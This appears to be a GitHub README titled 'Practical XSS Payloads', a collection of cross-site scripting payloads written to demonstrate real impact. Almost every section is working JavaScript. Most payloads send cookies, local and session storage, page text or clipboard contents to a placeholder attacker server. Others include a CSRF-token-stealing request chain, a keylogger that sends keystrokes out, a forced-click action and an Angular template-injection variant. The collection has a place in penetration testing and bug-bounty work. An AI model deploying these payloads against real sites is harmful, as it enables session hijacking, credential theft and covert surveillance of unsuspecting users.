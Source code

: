 # Practical XSS Payloads
## About
Instead of using alert() for your XSS payloads, I encourage you to check out some XSS payloads which have purpose and hammer home a point.
+ **TLDR:** *POC||GTFO*

### **Quick-navigation:**
+ **EXFILTRATION:**  
  + [FETCH](https://github.com/Insecurities/PracticalXSSPayloads#fetch)  
  + [.$GET](https://github.com/Insecurities/PracticalXSSPayloads#jquery-ajax)
+ **ACTIONS:**
  + [CLICK](https://github.com/Insecurities/PracticalXSSPayloads#forcing-actions)
+ **ANGULAR NOTE**
  + [PAYLOADS FOR ANGULAR](https://github.com/Insecurities/PracticalXSSPayloads#angular)

# EXFILTRATION
*For session hijacking, sensitive info exfil, etc.*
## FETCH
### GET VALUE FROM LOCAL STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $FETCH
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```
### GET COOKIES AND POST $FETCH AND SEND RESPONSE (Good for exfiltrating data from response pages or where you might not be able to compromise cookies but leverage a CSRF token thats accessible)
```javascript
var data ={"YOUR_JSON":"SOMEVALUE"};var value=('; '+document.cookie).split(`; CSRF-TOKEN=`).pop().split(';')[0];fetch('/SENSITIVE_API_ENDPOINT',{method:'POST',headers: {'X-CSRF-Token':value,'Content-Type':'application/json;charset=utf-8',},body:JSON.stringify(data),}).then(response=>response.json()).then(data =>{fetch("https://{ATTACKER_SERVER}/key?"+JSON.stringify(data));});
```
### GET TEXT FROM PAGE AND $FETCH *(might be constrained by data length - use .slice() to shorten)*
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.documentElement.outerText)
```
### GET CONTENT FROM CLIPBOARD AND $FETCH *(Will prompt user for Clipboard perms if not already set)*
```javascript
setTimeout(async()=>fetch("https://$ATTACKER_SERVER/?copy="+(await window.navigator.clipboard.readText())), 1000)
```
### KEYLOGGER WITH $FETCH *(Script modified from Chentetrans logger)*
```javascript
var l = ""; document.onkeypress = function(e){;l+=e.key;fetch("https://$ATTACKER_SERVER/?q="+ l);}
```
## JQuery AJAX
### GET VALUE FROM LOCAL STORAGE AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $.GET:
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```  
### GET TEXT FROM PAGE AND $.GET *(might be constrained by data length - use .slice() to shorten)*
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.documentElement.outerText)
```
# FORCING ACTIONS
*For forcing users to preform a certain action. This is tricky because every app is going to be different and thus these will require **modification**.*
## CLICK ELEMENT BY ID
```javascript
document.getElementById("$TARGET_ELEMENT_ID").click()
```

# ANGULAR
For Angular template injection you should be able to use the above payloads in conjunction with constructors. You can find an example below.
### GET VALUE FROM SESSION STORAGE AND FETCH
```javascript
{{constructor.constructor('fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))')()}}
```
